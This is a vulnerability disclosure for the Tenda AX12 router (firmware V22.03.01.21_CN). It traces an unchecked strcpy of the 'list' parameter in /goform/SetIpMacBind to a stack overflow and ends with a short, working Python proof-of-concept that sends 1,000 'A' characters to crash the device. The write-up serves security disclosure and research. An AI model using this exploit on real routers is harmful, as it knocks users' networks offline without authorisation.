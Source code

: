 ## Vulnerability description ##
Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Stack overflow

Impact: Denial of Service(DoS)

## Vulnerability description ##
This vulnerability is a vulnerability overflow triggered in the **sub_42FDE4** function, which satisfies the request of the upper-level interface function **sub_430124**, that is, handles the post request under **/goform/SetIpMacBind**



First, sub_430124 calls the sub_42FFF8 function.

![](.\image\Snipaste_2022-07-30_18-20-26.png)

In the **sub_42FFF8** function, the two parameters **bindnum** and **list** passed in by the post are obtained, and the address of the list value is used as the parameter of the **sub_42FDE4** function.

![](.\image\Snipaste_2022-07-30_18-28-01.png)



**sub_42FDE4**, **strcpy(v16, v6)**, **v6** is the incoming **list** parameter, and no length limit and security check are used in this process, so the attacker can cause stack overflow through a long **list** and achieve denial of service attack.

![](.\image\Snipaste_2022-07-30_18-33-51.png)



## POC ##

Poc of Denial of Service(DoS):

```python

import requests
from pwn import *

url = "http://192.168.0.1/goform/SetIpMacBind"
cookie = {"Cookie":"password=1111"}
data = {"bindnum": "1", "list":"\r" + "A" * 1000}


requests.post(url, cookies=cookie, data=data)
```
